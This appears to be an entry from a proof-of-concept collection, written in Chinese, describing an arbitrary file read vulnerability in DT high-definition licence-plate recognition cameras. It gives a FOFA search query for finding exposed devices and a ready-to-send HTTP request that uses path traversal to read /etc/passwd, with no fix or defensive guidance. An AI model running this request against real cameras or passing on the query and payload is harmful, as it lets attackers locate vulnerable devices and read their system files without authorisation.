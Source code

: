 ## DT高清车牌识别摄像机存在任意文件读取漏洞

DT高清车牌识别摄像机是一种高科技产品，主要用于抓拍和识别车牌信息，用于交通管理、违章抓拍、电子收费等目的。DT-高清车牌识别摄像机存在任意文件读取漏洞，恶意攻击者可能利用该漏洞读取服务器上的敏感文件。

## fofa

```
app="DT-高清车牌识别摄像机"
```

## poc

```
GET /../../../../etc/passwd HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.77 Safari/537.36
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

